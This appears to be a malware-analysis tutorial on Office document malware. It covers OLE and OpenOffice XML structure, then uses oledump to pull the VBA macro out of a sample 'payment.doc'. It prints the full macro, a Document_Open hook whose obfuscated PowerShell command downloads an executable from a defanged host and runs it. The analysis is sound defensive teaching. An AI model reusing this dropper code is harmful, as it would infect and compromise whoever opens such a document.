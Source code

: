 ![OLE tree structure example, from https://olefile.readthedocs.io/en/latest/_images/OLE_VBA_sample.png](/static/images/2020-04-27-analyzing-document-based-malware/OLE_VBA_sample.png)

### OpenOffice XML

-   Compressed ZIP file with a different extension, rename to `*.zip`
-   Try it out with a docx file!

## Analyzing malware

### The files

<https://github.com/HenryFBP/VagrantPackerFiles/tree/d2175b7252f8d3e16e0a41e193a9c7da35942245/vagrant/windows-analysis-and-vulnerable/shared/malware>

### payment.doc notes

- `oledump payment.doc`
- interesting that there are macros, viewing number 5/6 should yield interesting results.
- number 7: capital M `7: M`
- `oledump payment.doc -s 7` to view dump of macro. It appears to load malicious code from the web.
- `oledump payment.doc -s 7 -d` will show a columnar hexdump.

#### `oledump payment.doc -s 7 -v`

This gives decompressed vba code!

```vb
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Private Sub Document_Open()
Shell ("cmd.exe /c PoWerSHElL (nEW-oBjEcT sYsTeM.neT.wEBcLiEnT).dOWNLOadfIlE('hxxp://<REDACTED>/NDGAFV.exe','%Appdata%\playa.exe');&start %Appdata%\playa.exe& exit")
End Sub
```

